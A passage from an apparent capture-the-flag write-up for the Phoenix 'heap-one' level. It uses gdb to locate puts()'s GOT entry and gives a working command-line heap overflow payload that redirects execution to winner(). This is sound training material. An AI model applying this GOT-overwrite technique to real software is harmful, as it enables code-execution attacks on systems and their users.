 Its time to hijack our ```winner()``` function by GOT overwrite

We need all neccessary functions to place our data into heap, except ```puts()```,

Lets get the GOT address of ```puts()```,

```c
(gdb) x/3i 0x80485b0
   0x80485b0 <puts@plt>:	jmp    DWORD PTR ds:0x804c140
   0x80485b6 <puts@plt+6>:	push   0x28
   0x80485bb <puts@plt+11>:	jmp    0x8048550
```

Therfore the GOT address of ```puts()``` is ```0x804c140```

```c
(gdb) x/s 0x804c140
0x804c140 <puts@got.plt>:	"\356\210\373\367*?\372\367jo\373\367)@\372\367\024\031\371\367\341\335\373\367\360C\374\367\063\373\370\367\037\366\370\367"
```

Now, lets overwrite the GOT of ```puts()``` with ```winner()```,

Running out exploit,

```c
user@phoenix-amd64:~$ ./heap-one $(python -c "print('A'*20+'\x40\xc1\x04\x08')")  $(python -c "print('\x9a\x88\x04\x08')")
Congratulations, you've completed this level @ 1625324831 seconds past the Epoch
```

Done! we have completed "heap-one" challenge











